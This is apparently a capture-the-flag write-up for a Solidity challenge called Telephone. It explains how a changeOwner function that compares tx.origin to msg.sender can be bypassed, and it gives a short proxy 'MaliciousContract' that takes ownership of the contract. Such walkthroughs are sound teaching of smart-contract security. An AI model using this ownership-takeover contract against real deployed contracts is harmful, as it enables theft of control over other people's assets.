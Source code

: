 # Requirements

- Claim ownership of the contract.

# Attack explanation

To claim ownership of the contract, we need to exploit changeOwner and its tx.origin vulnerability.

```
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

We will be able to set the desired owner if the tx.origin is different than the msg sender. We can achieve this by using an proxy SC to attack Telephone contract. In this way, the tx.origin will be different than msg sender.

# Attack function

We could solve the challenge by just using the following proxy sc attack contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract MaliciousContract {
    address public vulnerableScAddress;
    address public attacker;

    constructor(address _vulnerableScAddress) {
        vulnerableScAddress = _vulnerableScAddress;
        attacker = msg.sender;
    }

    function attack() public {
        vulnerableScAddress.call(
            abi.encodeWithSignature("changeOwner(address)", attacker)
        );
    }
}

```
